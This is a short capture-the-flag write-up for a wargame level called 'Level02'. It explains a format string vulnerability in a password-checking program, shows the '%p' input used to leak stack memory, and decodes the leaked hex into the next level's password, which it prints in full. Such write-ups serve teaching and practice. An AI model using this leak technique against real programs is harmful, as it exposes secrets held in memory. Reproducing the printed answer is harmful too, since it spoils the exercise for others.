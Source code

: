 # Level02

## Description
In this level, the program asks the user for a username and a password.  
The real password is read from `/home/users/level03/.pass` and stored in the variable `local_a8`.

It then compares the user input to the real password.

If the password is correct, the program prints a greeting and opens a shell. Otherwise, the program prints the username followed by "does not have access!"

## Key Vulnerability
We cannot use ltrace, gdb, or similar tools to read the memory.

However, the username is printed using : 
```
printf(local_78);
```

This is a format string vulnerability, because the format is not specified.
It allows us to leak stack data by inputting:
```
"%p " * 30
```
This prints the first 30 addresses on the stack.


Among those, we can spot 5 values that look like ASCII strings in hexadecimal:
```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```

Reversing each 8-byte block and converting to ASCII gives:
```
0x756e505234376848 -> unPR47hH -> Hh74RPnu
0x45414a3561733951 -> EAJ5as9Q -> Q9sa5JAE
0x377a7143574e6758 -> 7zqCWNgX -> XgNWCqz7
0x354a35686e475873 -> 5J5hnGXs -> sXGnh5J5
0x48336750664b394d -> H3gPfK9M -> M9KfPg3H
```

## Password

Concatenating these gives us the real password:
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```